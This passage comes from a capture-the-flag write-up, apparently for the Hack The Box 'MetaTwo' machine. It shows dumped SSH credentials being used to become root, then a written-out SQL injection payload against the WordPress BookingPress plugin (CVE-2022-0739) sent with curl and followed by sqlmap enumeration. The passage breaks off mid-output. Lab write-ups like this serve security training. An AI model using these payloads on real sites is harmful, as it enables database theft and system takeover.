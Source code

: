 	credentials:
	- comment: ''
	  fullname: root@ssh
	  login: root
	  modified: 2022-06-26 08:58:15.621572
	  name: ssh
	  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
	- comment: ''
	  fullname: jnelson@ssh
	  login: jnelson
	  modified: 2022-06-26 08:58:15.514422
	  name: ssh
	  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
	handler: passpie
	version: 1.0
	jnelson@meta2:~$
	```
	> Valid Credential
	> - `root:p7qfAZt4_A1xo_0x` 
	{: prompt-info}
4. Switch to `root` 
	```
	jnelson@meta2:~$ su root
	Password:
	root@meta2:/home/jnelson# id;whoami; cat /root/root.txt
	uid=0(root) gid=0(root) groups=0(root)
	root
	ce890296849507842a811feaed595c2a
	root@meta2:/home/jnelson#
	```



# Additional 
## SQLMap
1. Instead of using [Chris01s](https://github.com/Chris01s)/**[CVE-2022-0739](https://github.com/Chris01s/CVE-2022-0739)**, we can use SQLMap to exfiltrate more information
2. We have to follow [these](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357) steps in order to obtain the `POST` request to do SQLi 
	1. First, we have to find out the `nonce`, we can do by viewing the page source of `http://metapress.htb/events/`
		 ![](Pasted%20image%2020221130114442.png)
		 > wpnonce: `221f0d0bf9`
		 {: prompt-info}
	2. Next, we have to invoke a `curl` command w/ SQLi Payload
		```
		┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		└─# curl -i 'http://metapress.htb/wp-admin/admin-ajax.php'   --data 'action=bookingpress_front_get_category_services&_wpnonce=221f0d0bf9&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' -x http://127.0.0.1:8080
		```
	3. Intercept request w/ `burp` & remove SQLi Payload and save request
		![](Pasted%20image%2020221130115229.png)
4. SQLMap
	1. Enumerate `databases`
		```
		┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		└─# sqlmap -r booking.req -p total_service --batch --dbs
		---
		Parameter: total_service (POST)
		    Type: time-based blind